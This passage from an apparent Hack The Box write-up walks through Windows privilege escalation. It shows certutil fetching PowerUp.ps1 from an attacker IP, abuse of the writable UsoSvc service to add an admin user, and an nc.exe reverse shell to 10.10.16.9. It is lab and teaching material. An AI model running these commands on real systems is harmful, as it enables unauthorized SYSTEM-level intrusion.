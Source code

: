 Then use PowerUp from Powersploit to look for privesc vectors:

```
c:\ProgramData>certutil -urlcache -f http://10.10.16.9/PowerUp.ps1 powerup.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\ProgramData>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> import-module .\powerup.ps1
PS C:\ProgramData> invoke-allchecks

[...]

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```

I have write access to the `UsoSvc` service so I can change the BinPath and execute anything I want as SYSTEM. The default `Invoke-ServiceAbuse` parameters will simply add a new user with local admin rights.

```
PS C:\ProgramData> Invoke-ServiceAbuse -Name 'UsoSvc'

ServiceAbused Command
------------- -------
UsoSvc        net user john Password123! /add && net localgroup Administrators john /add
```

Instead I can pop a reverse shell using netcat I uploaded earlier.

```
PS C:\ProgramData> Invoke-ServiceAbuse -Name 'UsoSvc' -command 'C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 8888'
```

![](/assets/images/htb-writeup-re/system.png)
